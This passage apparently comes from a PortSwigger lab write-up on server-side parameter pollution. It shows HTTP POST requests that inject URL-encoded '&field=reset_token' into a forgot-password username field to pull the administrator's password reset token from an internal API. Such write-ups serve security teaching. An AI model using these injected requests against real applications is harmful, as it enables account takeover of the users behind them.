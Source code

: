 That being said, when we send this POST request:

```http
POST /forgot-password HTTP/2

csrf=ggIz6CxBvVugiFQkf34MG3MC6Zcvj8AG&username=foobar%23
```

The server-side request to the internal API might be this:

```http
GET /api/user?username=foobar#&otherparameter=blah
```

That being said, **the `username` parameter is parsed to the internal API**.

Also, by injecting invalid parameters, we can get error `Parameter is not supported.`:

```http
POST /forgot-password HTTP/2

csrf=ggIz6CxBvVugiFQkf34MG3MC6Zcvj8AG&username=foobar%26foo=xyz
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/API-Testing/API-4/images/Pasted%20image%2020240510182346.png)

Which means the internal API interpreted `&foo=xyz` as a separate parameter.

After fumbling around, I found that **the `field` is a parameter name**! This parameter's value may refer to other parameter name.

Let's try `username`:

```http
POST /forgot-password HTTP/2

csrf=ggIz6CxBvVugiFQkf34MG3MC6Zcvj8AG&username=administrator%26field=username
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/API-Testing/API-4/images/Pasted%20image%2020240510183557.png)

Ah ha! I started to understand this! **The `field` in the internal API means return a specific object's attribute (field)'s value!**

In our case, we injected the `field` to be `username` and caused the internal API returned the user's object attribute `username`'s value!

Hmm... Did you recall **the `reset_token` parameter name**?

**What if the internal API return user `administrator`'s reset token??**

```http
POST /forgot-password HTTP/2

csrf=ggIz6CxBvVugiFQkf34MG3MC6Zcvj8AG&username=administrator%26field=reset_token
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/API-Testing/API-4/images/Pasted%20image%2020240510183926.png)

Let's go!!! We got user `administrator`'s reset token (`qb7tt2w2b1ooq4xrlxlpopbwwby0dgb4`)!!
